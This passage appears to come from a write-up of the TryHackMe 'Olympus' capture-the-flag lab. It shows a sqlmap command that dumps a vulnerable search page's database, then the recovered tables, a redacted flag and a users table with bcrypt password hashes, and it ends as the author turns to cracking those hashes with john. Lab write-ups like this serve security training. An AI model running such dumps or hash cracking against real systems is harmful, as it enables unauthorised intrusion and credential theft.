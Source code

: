 The next step is dumping all the information from the databases:

```
┌──(kali㉿kali)-[~/TryHackMe/Olympus]
└─$ sqlmap -u "http://olympus.thm/[REDACTED]/search.php" --data="search=1337*&submit=" -D olympus --dump-all --batch
```

```
[03:14:56] [INFO] fetching tables for database: 'olympus'
Database: olympus
[6 tables]
+------------+
| categories |
| chats      |
| comments   |
| flag       |
| posts      |
| users      |
+------------+
```

```
Database: olympus
Table: flag
[1 entry]
+---------------------------+
| flag                      |
+---------------------------+
| flag{[REDACTED]} |
+---------------------------+
```

```
Database: olympus
Table: users
[3 entries]
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password                                                | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C | prometheus     |
| 6       | dgas     | root       | Admin     | root@[REDACTED].olympus.thm  | <blank>    | <blank>       | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK | root           |
| 7       | dgas     | zeus       | User      | zeus@[REDACTED].olympus.thm  | <blank>    | <blank>       | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
```

I save these information to my local machine and then use **john** to crack the hash password of each user to plaintext:
